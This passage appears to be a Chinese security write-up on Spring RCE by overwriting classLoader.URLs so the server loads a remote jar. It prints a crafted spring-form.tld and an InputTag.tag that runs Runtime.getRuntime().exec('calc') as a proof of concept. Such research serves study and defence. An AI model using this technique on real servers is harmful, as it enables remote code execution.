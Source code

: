 
通过覆盖classLoader.URLs来远程加载jra包达到rce的目的。


这里有几个问题。


**1. jar包里面的内容是啥，应该如何写？**


这里jar包里面的内容其实就是我们自定义的jstl标签，结构如下：


![picgo2022-04-21-11-36-56.png](../post_images/34e29d8dbc52874e8a85d75d849638ed.png)


spring-form.tld内容如下：


```text
<?xml version="1.0" encoding="UTF-8"?>
<taglib xmlns="http://java.sun.com/xml/ns/j2ee"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-jsptaglibrary_2_0.xsd"
        version="2.0">

    <description>Spring Framework JSP Form Tag Library</description>
    <tlib-version>3.0</tlib-version>
    <short-name>form</short-name>
    <uri>http://www.springframework.org/tags/form</uri>
    <tag-file>
        <name>input</name>
        <path>/META-INF/tags/InputTag.tag</path>
    </tag-file>
    <tag-file>
        <name>form</name>
        <path>/META-INF/tags/InputTag.tag</path>
    </tag-file>
</taglib>

```


InputTag.tag内容如下：


```text
<%@ tag dynamic-attributes="dynattrs" %>
<%
    java.lang.Runtime.getRuntime().exec("calc");
%>

```
